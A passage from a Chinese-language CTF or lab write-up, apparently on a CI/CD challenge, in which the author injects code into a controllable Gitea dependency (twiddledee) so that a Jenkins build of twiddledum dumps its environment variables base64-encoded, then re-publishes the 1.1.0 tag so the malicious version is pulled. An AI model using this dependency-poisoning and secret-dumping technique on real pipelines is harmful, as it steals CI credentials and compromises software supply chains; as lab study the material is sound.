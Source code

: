 [![](assets/1699929835-f2c3128d7e1cb2101860cc975272d6dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109133726-10e48fa4-7ec2-1.png)

## Twiddledum

目标是一个文件夹，gitea上有两个仓库，一个是twiddledee一个是twiddledum，尝试在jenkins里面构建twiddledum，发现pipeline中执行了node index.js，index.js中require了twiddledee，而且twiddledum不可控，而twiddledee可控，因此往twiddledee中注入恶意代码。

修改twiddledee的index.js：

```plain
const child_process = require('child_process');
child_process.exec('env|base64 -w 0',function(error, stdout, stderr){console.log(stdout)});
```

直接push到main分支上。

根据twiddledum的package.json：

```plain
"dependencies": {
    "twiddledee": "git+http://gitea:3000/Wonderland/twiddledee#semver:^1.1.0"
  },
```

它是通过字下载twiddledee的tag为1.1.0的源码来更新的。因此把之前1.1.0的版本发布和tag删除后重新发布：
